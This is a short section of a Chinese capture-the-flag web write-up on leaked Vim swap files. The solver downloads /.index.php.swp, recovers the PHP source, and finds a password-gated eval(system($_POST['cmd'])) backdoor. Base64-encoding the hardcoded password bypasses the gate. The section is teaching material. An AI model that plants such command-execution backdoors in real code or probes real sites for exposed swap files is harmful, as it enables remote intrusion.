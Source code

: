 ### 05. Vim yyds

```
当vim在编辑文档的过程中如果异常退出，则会产生缓存文件。
    第一次产生的缓存文件后缀为.swp
    第二次则产生的缓存文件后缀为.swo
    第三次产生的缓存文件后缀为.swn
使用命令vim -r 可以查看当前目录下的所有swp文件。
使用命令vim -r filename可以恢复文件，这样上次意外退出并且没有保存的修改，就可以覆盖文件。
调用这类的隐藏文件的时候，需要在最前面加.(如删除index.php.swp，则需要rm -fr* .index.php.swp).
```

访问`/.index.php.swp`,下载缓存文件

```
vim -r index.php
```

核心代码如下

```php
 <?php
            error_reporting(0);
            $password = "Give_Me_Your_Flag";
            echo "<p>can can need Vim </p>";
            if ($_POST['password'] === base64_encode($password)) {
                echo "<p>Oh You got my password!</p>";
                eval(system($_POST['cmd']));
            }
            ?>
```

```
$ echo -n "Give_Me_Your_Flag" | base64
R2l2ZV9NZV9Zb3VyX0ZsYWc=
```

![image-20230514002840444](Web_Writeup/image-20230514002840444.png)
